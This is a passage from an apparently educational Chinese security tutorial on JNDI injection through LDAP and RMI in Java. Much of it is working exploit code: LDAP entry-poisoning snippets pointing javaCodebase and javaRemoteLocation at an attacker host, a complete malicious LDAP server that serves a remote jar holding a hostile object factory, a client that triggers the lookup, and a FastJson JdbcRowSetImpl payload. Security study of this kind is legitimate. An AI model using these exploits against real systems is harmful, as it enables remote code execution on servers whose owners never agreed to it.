binary格式下的javaReferenceAddress编码形式为#2#TypeC##rO0ABXNyABpq...，#为分隔符，第一个分隔符后的数字为RefAddr的序号『因为可能有多个』，第二个分隔符后为RefAddr的类型，第三个分隔符后为RefAddr的内容。具体逻辑可以参考 RFC 文档或是 JDK 代码。该属性能否进行反序列化，受com.sun.jndi.ldap.object.trustSerialData系统属性影响。
private static Reference decodeReference(Attributes attrs,
String[] codebases) throws NamingException, IOException {
Reference ref = new Reference(className, factory,
(codebases != null? codebases[0] : null));
if ((attr = attrs.get(JAVA_ATTRIBUTES[REF_ADDR])) != null) {
// more code ...
// 判断是否允许对 binary 格式的 javaReferenceAddress 进行反序列化
if (!VersionHelper.isSerialDataAllowed()) {
throw new NamingException("Object deserialization is not allowed");
}
if (decoder == null)
decoder = Base64.getMimeDecoder();
// 获取第 3 个字符开始后的内容，base64 解码后进行反序列化。
RefAddr ra = (RefAddr)
deserializeObject(
decoder.decodeBuffer(val.substring(start)),
cl);
}由此可以构造下面这样恶意的 Entry：
System.out.println("Poisoning LDAP user");
Attribute mod1 = new BasicAttribute("objectClass", "top");
mod1.add("javaNamingReference");
Attribute mod2 = new BasicAttribute("javaCodebase", "http://attackerURL/");
Attribute mod3 = new BasicAttribute("javaClassName", "PayloadObject");
Attribute mod4 = new BasicAttribute("javaFactory", "PayloadObject");
ModificationItem[] mods = new ModificationItem[] {
new ModificationItem(DirContext.ADD_ATTRIBUTE, mod1),
new ModificationItem(DirContext.ADD_ATTRIBUTE, mod2),
new ModificationItem(DirContext.ADD_ATTRIBUTE, mod3),
new ModificationItem(DirContext.ADD_ATTRIBUTE, mod4)
};
ctx.modifyAttributes("uid=target,ou=People,dc=example,dc=com", mods);Remote Location
虽然在 RFC 中被视为废弃，但并不代表无法使用，JDK 代码中尚有它的影子。如果 javaRemoteLocation 属性存在，那么它会被解码，攻击者可以构造一个 Reference 对象，存放在 RMI 的 Registry 中，并将 javaRemoteLocation 指向它。com.sun.jndi.ldap.Obj.decodeObject(Attributes attrs):
if ((attr = attrs.get(JAVA_ATTRIBUTES[REMOTE_LOC])) != null) {
// For backward compatibility only
// 可以看到为了向后兼容，保留了该属性
return decodeRmiObject(
(String)attrs.get(JAVA_ATTRIBUTES[CLASSNAME]).get(),
(String)attr.get(), codebases);
}decodeRmiObject 内容如下，会返回一个 Reference 对象，这样又变回为前面提到的利用方式了
private static Object decodeRmiObject(String className,
String rmiName, String[] codebases) throws NamingException {
return new Reference(className, new StringRefAddr("URL", rmiName));
}如果 LDAP 服务器或者 LDAP 响应是攻击者可控的，即使这个属性已经废弃，它依然可以被利用
System.out.println("Poisoning LDAP user");
BasicAttribute mod1 = new BasicAttribute("javaRemoteLocation",
"rmi://attackerURL/PayloadObject");
BasicAttribute mod2 = new BasicAttribute("javaClassName",
"PayloadObject");
ModificationItem[] mods = new ModificationItem[2];
mods[0] = new ModificationItem(DirContext.ADD_ATTRIBUTE, mod1);
mods[1] = new ModificationItem(DirContext.ADD_ATTRIBUTE, mod2);
ctx.modifyAttributes("uid=target,ou=People,dc=example,dc=com", mods);顺带一提的是，javaRemoteLocation 除了可以指定为使用 rmi 协议外，还可以使用其它协议，例如 ldap、ldaps、dns、iiop、iiopname、cobarname 等。具体取决于当前运行环境中是否有对应的依赖。
private static Object getURLObject(String scheme, Object urlInfo,
Name name, Context nameCtx,
Hashtable<?,?> environment)
throws NamingException {
// 根据 scheme 查找可用的 ObjectFactory
// e.g. "ftpURLContextFactory"
ObjectFactory factory = (ObjectFactory)ResourceManager.getFactory(
Context.URL_PKG_PREFIXES, environment, nameCtx,
"." + scheme + "." + scheme + "URLContextFactory", defaultPkgPrefix);
if (factory == null)
return null;
// Found object factory
try {
return factory.getObjectInstance(urlInfo, name, nameCtx, environment);创建恶意的 LDAP 服务
LDAP 和 RMI 同理，测试方法也同上。启动 LDAP 服务端程序后我们会在 LDAP 请求中返回一个含有恶意攻击代码的对象工厂的远程 jar 地址，客户端会加载我们构建的恶意对象工厂 (ReferenceObjectFactory) 类然后调用其中的 getObjectInstance 方法从而触发该方法中的恶意代码
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
public class LDAPReferenceServerTest {
// 设置LDAP服务端口
public static final int SERVER_PORT = 3890;
// 设置LDAP绑定的服务地址，外网测试换成0.0.0.0
public static final String BIND_HOST = "127.0.0.1";
// 设置一个实体名称
public static final String LDAP_ENTRY_NAME = "test";
// 获取LDAP服务地址
public static String LDAP_URL = "ldap://" + BIND_HOST + ":" + SERVER_PORT + "/" + LDAP_ENTRY_NAME;
// 定义一个远程的jar，jar中包含一个恶意攻击的对象的工厂类
public static final String REMOTE_REFERENCE_JAR = "http://p2j.cn/tools/jndi-test.jar";
// 设置LDAP基底DN
private static final String LDAP_BASE = "dc=javasec,dc=org";
public static void main(String[] args) {
try {
// 创建LDAP配置对象
InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
// 设置LDAP监听配置信息
config.setListenerConfigs(new InMemoryListenerConfig(
"listen", InetAddress.getByName(BIND_HOST), SERVER_PORT,
ServerSocketFactory.getDefault(), SocketFactory.getDefault(),
(SSLSocketFactory) SSLSocketFactory.getDefault())
);
// 添加自定义的LDAP操作拦截器
config.addInMemoryOperationInterceptor(new OperationInterceptor());
// 创建LDAP服务对象
InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
// 启动服务
ds.startListening();
System.out.println("LDAP服务启动成功,服务地址：" + LDAP_URL);
} catch (Exception e) {
e.printStackTrace();
}
}
private static class OperationInterceptor extends InMemoryOperationInterceptor {
@Override
public void processSearchResult(InMemoryInterceptedSearchResult result) {
String base = result.getRequest().getBaseDN();
Entry entry = new Entry(base);
try {
// 设置对象的工厂类名
String className = "com.anbai.sec.jndi.injection.ReferenceObjectFactory";
entry.addAttribute("javaClassName", className);
entry.addAttribute("javaFactory", className);
// 设置远程的恶意引用对象的jar地址
entry.addAttribute("javaCodeBase", REMOTE_REFERENCE_JAR);
// 设置LDAP objectClass
entry.addAttribute("objectClass", "javaNamingReference");
result.sendSearchEntry(entry);
result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
} catch (Exception e1) {
e1.printStackTrace();
}
}
}
}LDAP 客户端代码
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import static com.anbai.sec.jndi.injection.LDAPReferenceServerTest.LDAP_URL;
public class LDAPReferenceClientTest {
public static void main(String[] args) {
try {
// // 测试时如果需要允许调用RMI远程引用对象加载请取消如下注释
// System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
Context ctx = new InitialContext();
// 获取RMI绑定的恶意ReferenceWrapper对象
Object obj = ctx.lookup(LDAP_URL);
System.out.println(obj);
} catch (NamingException e) {
e.printStackTrace();
}
}
}A-Journey-From-JNDI-LDAP-Manipulation-To-RCE 中提到了包括 RMI、LDAP、CORBA 的 JNDI 注入被广泛的利用于近年来的各种 JNDI 注入漏洞。
触发 JNDI 注入漏洞的方式只需要直接或间接的调用 JNDI 服务，且 lookup 的参数值可控、JDK 版本、服务器网络环境满足漏洞利用条件就可以成功的利用该漏洞。
FastJson 反序列化 JNDI 注入示例
比较典型的漏洞有 FastJson 的 JNDI 注入漏洞，FastJson 在反序列化 JSON 对象时候会通过反射自动创建类实例且 FastJson 会根据传入的 JSON 字段间接的调用类成员变量的 setXXX 方法。FastJson 这个反序列化功能看似无法实现 RCE，但是有人找出多个符合 JNDI 注入漏洞利用条件的 Java 类 (如：com.sun.rowset.JdbcRowSetImpl) 从而实现了 RCE：
{
"@type": "com.sun.rowset.JdbcRowSetImpl",
"dataSourceName": "ldap://127.0.0.1:3890/test",
"autoCommit": "true"
}总结
JNDI 利用方式：
- 恶意
ObjectFactory#getObjectInstance方法『恶意工厂类不是必须实现javax.naming.spi.ObjectFactory接口，将待执行的代码放在static代码块中也是可以的』- LDAP
- References Entry
- 使用
javaClassName、javaFactory、javaCodebase属性
- 使用
- References Entry
- RMI
- 使用
javax.naming.Reference创建Reference对象，并通过com.sun.jndi.rmi.registry.ReferenceWrapper进行封装。
- 使用
- LDAP
- 反序列化
- LDAP
javaSerializedObject的javaSerializedData属性javaMarshalledObject的javaSerializedData属性javaNamingReference的javaReferenceAddress属性
- LDAP
- Remote Location
javaRemoteLocation属性，进行JNDI注入『变成二次注入』
参考
- https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/index.html 『JNDI Overview』
- https://docs.oracle.com/javase/8/docs/technotes/guides/jndi/jndi-ldap.html 『LDAP Naming Service Provider for The JNDI』
- https://paper.seebug.org/942 『如何绕过高版本 JDK 的限制进行 JNDI 注入利用』
- https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf 『A Journey From JNDI LDAP Manipulation To RCE』
- https://bugs.openjdk.org/browse/JDK-6260095 『javaRemoteLocation attributes deprecated but not removed』